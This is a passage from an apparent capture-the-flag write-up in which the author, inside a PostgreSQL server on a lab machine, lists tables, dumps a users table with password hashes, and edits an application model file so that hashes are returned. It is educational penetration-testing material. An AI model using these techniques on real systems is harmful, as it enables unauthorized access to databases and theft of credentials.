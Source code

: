`mentorquotes_db` is the interesting one. I’ll connect to that and list the tables:

```

postgres=# \connect mentorquotes_db 
psql (14.6 (Ubuntu 14.6-0ubuntu0.22.04.1), server 13.7 (Debian 13.7-1.pgdg110+1))
You are now connected to database "mentorquotes_db" as user "postgres".
mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

```

I have no idea what the `cmd_exec` table is. It has the output of `id` as the postgres user:

```

mentorquotes_db=# select * from cmd_exec;
                               cmd_output                               
------------------------------------------------------------------------
 uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
(1 row)

```

`users` shows two users (mine has been cleaned up it seems):

```

mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)

```

#### Alternative Method to Dump Hashes

Above I talked about how the model was preventing the hashes from being shown back to the user. I also noted that `uvicorn` was running with `--reload`.

I’ll use `vi` to edit `/app/app/api/models.py`, adding `password` to the model:

```

class userDB(BaseModel):
    id: int
    email: str
    username: str
    password: str 

```
